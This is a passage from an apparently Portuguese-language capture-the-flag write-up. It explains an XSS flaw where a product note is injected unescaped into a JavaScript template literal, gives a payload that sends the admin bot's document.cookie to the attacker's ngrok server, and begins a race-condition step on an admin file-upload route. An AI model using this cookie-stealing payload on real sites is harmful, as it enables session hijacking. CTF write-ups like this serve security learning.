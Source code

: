 Podemos perceber que o trecho ``let note = `{{product.note | safe }}`; `` é vulnerável a __XSS__. Devido a possibilidade do `product.note` possuir o character `` ` ``.

Exemplo: `product.note` = ``<h1>Hello<h1>`; alert(1); var A =  `A``
Resultado ficará da seguinte forma:
```html
<script>
    let note = `<h1>Hello<h1>`; alert(1); var A =  `A`;
</script>
```

A ideia aqui é a mesma, criar um produto com o `note` possuindo o nosso __XSS__ (``<span>Hello</span>`;fetch('{self.ngrok}/receive?data='+btoa(document.cookie));var i = `A``). Direcionar o página do novo produto para o Admin via o endpoint `/challenge/api/report`.

Quando o bot abrir a página como administrator irá executar o nosso __XSS__ coletando o `document.cookie` e enviando para o nosso servidor.

## Passo final: Race Condition

Apesar de conceitualmente simples, essa etapa é a mais difícil de ser executada.

Como administrator podemos utilizar os seguintes endpoint:
`./challenge/application/blueprints/route.py`
```python
@web.route('/admin/contracts')
@isAuthenticated
@isVerified
@isInternal
@isAdmin
def addContract(decodedToken):
    user = getUser(decodedToken.get('id'))
    return render_template('addContracts.html', user=user, antiCSRFToken=decodedToken.get('antiCSRFToken'))
```
`./challenge/application/blueprints/api.py`
```python
@api.route('/addContract', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@isAdmin
@antiCSRF
@sanitizeInput
def addContract(decodedToken):
    name = request.form.get('name', '')

    uploadedFile = request.files['file']

    if not uploadedFile or not name:
        return response('All files required!')
    
    if uploadedFile.filename == '':
        return response('Invalid file!')

    uploadedFile.save('/tmp/temporaryUpload')

    isValidPDF = checkPDF()

    if isValidPDF:
        try:
            filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
            with open(filePath, 'wb') as wf:
                with open('/tmp/temporaryUpload', 'rb') as fr:
                    wf.write(fr.read())

```